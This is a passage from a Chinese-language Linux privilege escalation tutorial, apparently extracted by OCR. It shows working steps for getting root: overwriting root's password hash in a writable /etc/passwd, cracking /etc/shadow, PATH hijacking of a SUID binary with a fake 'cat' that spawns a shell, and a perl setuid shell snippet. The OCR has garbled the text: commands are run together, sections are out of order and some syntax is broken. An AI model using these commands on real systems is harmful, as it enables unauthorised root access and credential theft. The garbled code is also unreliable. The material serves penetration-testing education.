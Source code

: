 ```
gcc suid.c  -o suid-expchmod 4755 ./suid-exp#这里设置了SUID位ls -l
gcc suid.c  -o suid-exp
chmod 4755 ./suid-exp#这里设置了SUID位
ls -l
```

```
-rwsr-xr-x 1 root root 8632 Mar 15 20:53 suid-exp
-rwsr-xr-x 1 root root 8632 Mar 15 20:53 suid-exp
```

### `如果passwd可写，我们就可以把root的密码字段(x)替换成一个已知密码的hash（比如本机shadow里面的root密码hash），这样系统在验证密码时以passwd的为准，密码就已知了。如果shadow可读，我们可以读走root的hash，然后用hashcat或者john暴力破解之。`

### `**密码复用**`

`很多管理员会重复使用密码，因此数据库或者web后台的密码也许就是root密码。`

### `**and then？**`

`有了（疑似）root密码怎么办？你一定想ssh登陆。然而ssh很可能禁止root登陆，或是防火墙规则将你排除在外了。返回来想，我们不是有一个低权shell了吗？找个办法再上面“输入”密码就好了。显然，直接在低权shell里面用sudo是不奏效的。这是因为出于安全考虑，linux要求用户必须从**终端设备**（tty）中输入密码，而不是标准输入（stdin）。换句话说，sudo在你输入密码的时候本质上是读取了键盘，而不是bash里面输入的字符。因此为了能够输入密码，我们必须模拟一个终端设备。python就有这样的功能。在shell里面输入：`

```
su test./suid-exp
su test
./suid-exp
```

```
cat >> /tmp/cat <<EOF#!/usr/bin/pythonprint "this is not the true cat"print "here is a root shell!"import pty;pty.spawn("/bin/sh")EOF# 这里我们在/tmp建立了假的cat，它会用python执行一个shellPATH=/tmp:$PATH#设置PATH，优先从/tmp查找程序./suid-exp#执行suid程序，因为PATH被劫持，system("cat /etc/shadow");会执行我们的假cat
cat >> /tmp/cat <<EOF
#!/usr/bin/python
print "this is not the true cat"
print "here is a root shell!"
import pty;pty.spawn("/bin/sh")
EOF
# 这里我们在/tmp建立了假的cat，它会用python执行一个shell
PATH=/tmp:$PATH#设置PATH，优先从/tmp查找程序
./suid-exp#执行suid程序，因为PATH被劫持，system("cat /etc/shadow");会执行我们的假cat
```

`就用python简历了一个虚拟终端，然后就可以使用sudo等等命令了。`

```
#!/usr/bin/perl$< = $>;$( = $) = 0;system ("/bin/sh"):
#!/usr/bin/perl
$< = $>;
$( = $) = 0;
system ("/bin/sh"):
```
